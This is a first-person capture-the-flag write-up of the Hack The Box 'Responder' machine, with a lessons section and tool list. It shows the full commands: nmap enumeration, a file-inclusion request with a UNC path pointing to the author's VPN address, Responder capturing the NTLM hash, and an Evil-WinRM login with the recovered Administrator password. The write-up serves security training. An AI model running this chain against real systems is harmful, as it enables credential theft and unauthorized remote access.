







Scanning the target
I began with a full TCP port scan while disabling host discovery. This allowed me to identify services exposed by the target even if ICMP-based host discovery was unavailable.
nmap <TARGET_IP> -p- -Pn
Full TCP enumeration revealing HTTP on port 80 and WSMan on port 5985.
The scan revealed port 80 running HTTP and port 5985 exposing WSMan. The presence of WinRM suggested that valid Windows credentials could potentially provide remote command execution.
Inspecting the web server
I then investigated the HTTP service on port 80 to identify the underlying web stack and application behavior.

HTTP enumeration revealing Apache 2.4.52, OpenSSL 1.1.1m and PHP 8.1.1.
The server was running an Apache-based web application on a Windows environment using XAMPP. The exposed software versions and application behavior provided useful context for further testing.
During enumeration, I identified a PHP parameter that appeared to control the page being loaded. This made the parameter a candidate for local or remote file inclusion testing.
The target was a Windows server running an Apache/PHP application through XAMPP. The page parameter presented a potential file inclusion attack surface.
Testing the vulnerable parameter
Since the application accepted a user-controlled page parameter, I tested whether it would accept a remote resource. The goal was to determine whether the server would attempt to access a resource hosted from my attacking machine.
view-source:http://unika.htb/index.php?page=//10.10.15.120/somefile
Supplying a remote path through the vulnerable page parameter and observing the application's response.
The test confirmed that the application processed the supplied path and exposed information about the directory, software in use, and the target endpoint. More importantly, the use of a UNC-style path provided an opportunity to trigger an SMB connection back to an attacker-controlled system.
Because Windows systems can automatically attempt NTLM authentication when accessing SMB resources, I could use this behavior to test whether the target would disclose an NTLM challenge-response.
Capturing the NTLM challenge-response
To capture authentication attempts generated by the target, I started Responder on the VPN interface. Responder listens for network authentication protocols and can capture NTLM challenge-response material when a Windows host attempts to authenticate to a rogue service.
sudo responder -I tun0 -vWith Responder running, I sent the vulnerable request again using the remote path controlled by my machine. The Windows host attempted to access the resource over SMB, triggering an NTLM authentication exchange.

Responder captures the NTLM challenge-response generated by the target.
An NTLM challenge-response was successfully captured. This confirmed that the vulnerable parameter could be abused to induce an outbound SMB authentication attempt.
Saving the captured credential material
After obtaining the NTLM challenge-response, I saved the captured hash to a local file so it could be processed separately.

Saving the captured NTLM challenge-response for offline processing.
The captured material could then be used for offline password recovery. Once the corresponding password was recovered, it could be tested against the exposed WinRM service on port 5985.
Connecting with Evil-WinRM
With valid Windows credentials available, I targeted the WinRM service identified during the initial Nmap scan. Evil-WinRM provides an interactive PowerShell session over Windows Remote Management.
sudo evil-winrm -u Administrator -p badminton -i <TARGET_IP>
Establishing a remote PowerShell session using Evil-WinRM.
The recovered Administrator credentials provided authenticated remote access to the Windows host through WinRM.
Locating flag.txt
With an interactive PowerShell session established, I searched the filesystem for the machine's flag.txt file.
PowerShell's Get-ChildItem command can be used to enumerate files and directories recursively.
Get-ChildItem -Path C:\ -Filter flag.txt -Recurse -ErrorAction SilentlyContinue
Searching the Windows filesystem and locating the flag.txt file.
The flag was retrieved from the discovered flag.txt file, completing the Responder machine.
The attack chain successfully progressed from a web application file inclusion issue to NTLM credential capture, password recovery, remote Windows access and finally retrieval of the machine flag.
Lessons from Responder
Responder demonstrated how a web application issue can be chained with Windows authentication behavior to obtain useful credential material. The vulnerable parameter alone did not provide direct command execution; instead, it allowed the server to initiate an outbound SMB connection.
Because the connection was directed toward an attacker-controlled listener, the Windows host attempted NTLM authentication and exposed a challenge-response that could be captured and processed offline.
The machine also reinforced the importance of correlating enumeration results. The initial scan identified WinRM on port 5985, which became the destination for the recovered Windows credentials.
Tools used
The main tools and techniques used during the exercise were:
- Nmap — full TCP port and service enumeration
- Responder — NTLM authentication capture
- Apache / XAMPP — web application enumeration
- LFI / RFI Testing — testing the vulnerable page parameter
- NTLM — Windows authentication challenge-response
- Evil-WinRM — authenticated remote Windows access
- PowerShell — filesystem enumeration and flag discovery
Related resources
The resources below cover the machine and the enumeration, NTLM, file inclusion and WinRM techniques used throughout the exercise.